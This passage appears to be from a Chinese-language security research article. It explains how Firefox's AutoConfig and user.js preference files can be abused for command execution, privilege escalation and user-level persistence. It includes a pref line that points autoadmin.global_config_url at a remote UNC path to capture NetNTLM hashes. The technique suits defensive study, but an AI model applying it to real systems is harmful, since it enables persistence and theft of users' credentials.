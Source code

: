 前面提到过，基本的`AutoConfig` paylaod可以用来完成如下任务：

1、如果`AutoConfig`文件被部署到Firefox安装目录中，可以用来实现远程命令执行；

2、如果Firefox安装目录具备写权限，可以实现权限提升；

3、如果Firefox安装目录具备写权限，可以实现持久化。

然而，当Firefox被安装到`Program Files`目录时，只有攻击者具备目标主机的管理员权限时才能实现持久化（我们希望具备用户态持久化能力）。从这一点着手，我们继续研究是否可以由其他入口点，可以用来触发XPCOM，通过普通用户权限来攻击。

Firefox可以将个人信息存放在一系列文件中，这些文件分开存放在Firefox安装目录中。Firefox首选项中包括各种信息，比如密码、书签、扩展项、用户设置等。Firefox可以使用多个首选项，通过`about:profiles`访问Firefox配置管理器来切换不同的配置。

在这些配置信息中，我们比较感兴趣的是默认存放在用户`AppData\Roaming\Mozilla\Firefox\Profiles\`目录中的如下配置。我们需要时刻记住的是，用户在管理自己的配置时，可以设置任意的配置目录。当我们通过浏览器界面将选项信息（如启动页面）保存到配置文件中时，这些信息会被保存到`prefs.js`中，文件内容如下所示：

[![](./img/203840/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01c6a5153b87e54dc5.png)

然而，该文件并不具备XPCOM的访问权限，因此我们无法在其中直接包含XPCOM代码。这是因为首选项文件使用特定的一组函数来执行，这些函数包含在[prefcalls.js](https://dxr.mozilla.org/mozilla-central/source/extensions/pref/autoconfig/src/prefcalls.js)中。

[![](./img/203840/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0165af696f338ea043.png)

但我们可以注意到其中包含如下注释：

> 如果想修改首选项值，我们也可以在`user.js`文件中进行设置。

根据官方文档，这个文件默认情况下并没有被创建，是“用户可以创建的可选文件，可以覆盖被其他首选项文件初始化过的选项值”。这个文件比较有趣的一点是，该文件优先级最高，高于首选项文件及`AutoConfig`文件，如下所示：

[![](./img/203840/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01ceaaa8100bf0bbbd.png)

这意味着即使管理员将首选项文件及`AutoConfig`文件上传到Firefox安装目录，实现了某些浏览器设置，当前用户也可以通过写`user.js`文件来覆盖其他设置。然而，由于`user.js`是首选项文件，因此我们无法从该文件中执行XPCOM代码。

但这里我们可以使用`user.js`首选项文件，通过一些绕过方法实现任意命令执行。

这里最明显的一种方法，就是在`user.js`首选项文件中通过`general.config.filename`选项来引用`AutoConfig`文件。

[![](./img/203840/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01c8aee49179fc6459.png)

这种方法的缺陷在于，Firefox仍然会在安装目录中查找`AutoConfig`文件：

[![](./img/203840/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t014906f94fae673d7c.png)

Firefox不允许为`AutoConfig`文件设置任意的绝对路径值。

因此，即使攻击者可以通过用户配置目录的恶意`AutoConfig`文件来设置首选项，我们仍然需要将恶意`AutoConfig`文件注入到Firefox的安装目录中。

实现命令执行的第二种方法就是将附加外部托管的`autoadmin`文件，可以参考Firefox文档的如下描述：

> `AutoConfig`文件可以采用中心化管理方式。为了完成该任务，我们需要在主`AutoConfig`文件中引用辅助`AutoConfig`文件的位置：
<pre><code class="hljs cpp">pref(“autoadmin.global_config_url”,”http://yourdomain.com/autoconfigfile.js”);”
</code></pre>

在官方文档中，`AutoConfig`文件（使用`cfg`扩展名）和首选项文件（使用`js`扩展名）的区别不是特别清晰。然而我们要注意到，使用`autoadmin.global_config_url`选项时有些奇怪的特点：

1、我们可以使用任意URI（包括`file://`），这是Firefox支持的特性。因此，我们可以上传首选项文件，其中设置如下选项，从而窃取到NetNTLM哈希：

```
pref(“autoadmin.global_config_url”, “file://///10.0.2.15\test\ksek.js”);
```
